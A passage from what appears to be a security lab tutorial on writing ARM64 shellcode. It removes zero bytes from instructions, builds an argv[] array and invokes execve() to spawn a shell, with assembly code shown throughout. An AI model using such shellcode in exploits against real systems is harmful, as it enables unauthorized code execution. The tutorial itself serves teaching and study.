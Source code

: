 **Get rid of zero**. The instruction `"mov x8, 7"` actually has a 
zero in the machine code. 
The reason is that the value of `7` is too small. We will
use the same trick: add a larger number and then deduct the extra value. 
The following two instructions achieve the same goal: setting 
`x8` to 7. There is no zero in their machine code. 

```
mov  x9, 2008      // x9 = 2008
sub  x8, x9, 2001  // x8 = x9 - 2001 = 7
```


<h3 id="argv">Construct the argv[] array</h3> 

We also need to construct the `argv[]` array for the `execve()` 
system call. In our case, the array contains only two elements: 

- `argv[0]` should contain the address of the command string.
- `argv[1]` should contain zero, marking the end of the array.

When we write the program, these values are either unknown (the address
of the string) or zero, so we cannot put them in the code. 
That is why we created the two placeholders for them; 
during the execution of the shellcode, we dynamically fill 
these placeholders with the correct information. 
The addresses of `arg[0]` and `arg[1]` are at `x19 + 8` and 
`x19 + 16`, respectively. See the following code:

```
mov x8,  8           
mov x9,  x19         // x9  = address of the "/bin/bash" string
str x9, [x19, x8]    // Save x9 to argv[0] at x19 + 8

mov x8,  16
str xzr, [x19, x8]   // Save  0 to argv[1] at x19 + 16
```

<h3 id="execve">Invoke the execve() system call</h3> 

Now everything is set up and we are ready to invoke 
the `execve()` system call. This involves setting 
the `x0`, `x1`, and `x2` registers, one for each
argument. See the following code: 

```
mov  x0, x19         // x0 = addresss of command string ("/bin/sh")
adds x1, x19, 8      // x1 = address argv[], which is x19 + 8 
mov  x2, xzr         // x2 = 0; xzr is the zero register
mov  x8, #221        // 221 is execve's system call number
svc  #0x1337         // Invoke execve()
```

**Get rid of zero**: After a careful inspection of the machine code, we found that 
when we set the `x1` register above using `"adds `x1, x19, 8"`,
the machine code for this instruction has a zero. 

```
 4000a8:    b1002261    adds   x1, x19, #0x8
```
